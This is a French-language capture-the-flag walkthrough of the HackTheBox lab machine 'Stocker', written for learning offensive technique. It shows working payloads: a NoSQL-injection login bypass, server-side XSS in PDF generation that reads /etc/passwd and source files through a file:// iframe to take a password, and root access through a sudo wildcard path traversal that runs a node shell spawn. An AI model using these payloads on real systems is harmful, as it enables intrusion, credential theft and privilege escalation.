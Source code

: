 # Stocker - Easy

```bash
nmap -sV -sC 10.10.11.196
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-02 21:24 EST
Nmap scan report for 10.10.11.196
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On tombe sur un site au domaine stocker.htb. On lance un gobuster en fond.

Le serveur est un nginx et il y a du C sur le site.

Rien de spécial lors du gobuster donc on cherche un subdomain

```bash
gobuster vhost -u http://stocker.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt

Found: dev.stocker.htb (Status: 302) [Size: 28]
```

On tombe sur une page de login alors on relance un gobuster dir. On sait qu’il y a du express et du node.js. Pas de nouveau directory ou fichier trouvé.

```bash
sqlmap -r login.req --level 5 --risk 3
```

La tentative de SQLmap échoue, il n’y a pas d’injection SQL. En plus de cela il semble qu’il y aie un WAF bloquant le spam. On a pas d’autres pistes alors on va tenter le NoSQL. Pour tester les injections on utilise burpsuite.

L’astuce est donc de changer le Content-type en application/json et de rentrer le payload suivant

```json
{"username": {"$ne": null}, "password": {"$ne": null}}
```

ne signifie not equal et la faille ici est qu’on peut interpréter ces opérations dans la requête.

On tombe alors sur la page stock et lorsque l’on regarde le code source on peut voir une grande fonction qui contient un appel d’api

```jsx
submitPurchase.addEventListener("click", () => {
      fetch("/api/order", {
        method: "POST",
        body: JSON.stringify({ basket }),
        headers: {
          "Content-Type": "application/json",
        },
      })
        .then((response) => response.json())
        .then((response) => {
          if (!response.success) return alert("Something went wrong processing your order!");

          purchaseOrderLink.setAttribute("href", `/api/po/${response.orderId}`);

          $("#order-id").textContent = response.orderId;

          beforePurchase.style.display = "none";
          afterPurchase.style.display = "";
          submitPurchase.style.display = "none";
        });
    });
```

Interceptons la dernière requête pour voir:

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

Vu que c’est une génération dynamique de PDF: cf [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)

On peut insérer du code javascript qui va être interprété lors de la génération du pdf. Par exemple on peut saisir ça dans le champ title: 

```jsx
<script>document.write(JSON.stringify(window.location))</script>
```

Le but est donc de récupérer des infos utiles pour le foothold. On sait déjà qu’on est dans le dossier /var/www/dev/

Voici un iframe pour lire etc/passwd mais il faut adapter les dimensions pour lire

```jsx
<iframe src=file:///etc/passwd width=1000 height=1000></iframe>
```

Les deux seuls users à avoir /bin/bash sont root et: 

```bash
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
```

Ce sont donc les seuls deux users. On va maintenant chercher dans les fichiers du site si on ne peut pas trouver un fichier de config contenant un mdp.

```jsx
<iframe src=file:///var/www/dev/index.js width=1000 height=1000></iframe>
```

On trouve donc le mdp de connexion de mongoDB dans ce fichier. En tentant avec SSH c’est aussi le mdp de angoose, on a le flag user.

Réflexe:

```bash
sudo -l
User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Problème, voici nos droits:

```bash
64592 drwxr-xr-x  3 root root 4096 Dec  6 10:33 .
```

On ne peut pas rajouter de script alors il faut essayer de voir les scripts qui sont déjà dedans.

On peut voir cette ligne à l’execution de certains scripts:

```bash
Connecting to mongodb://<credentials>@localhost/prod?authSource=admin&w=1
```

Après réflexion le “*” nous permet d’exectuer n’importe quel .js de la sorte:

```bash
sudo /usr/bin/node /usr/local/scripts/../../../tmp/shell.js
```

On rentre donc ce code dans notre shell:

```jsx
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

On obtient un shell root et le flag !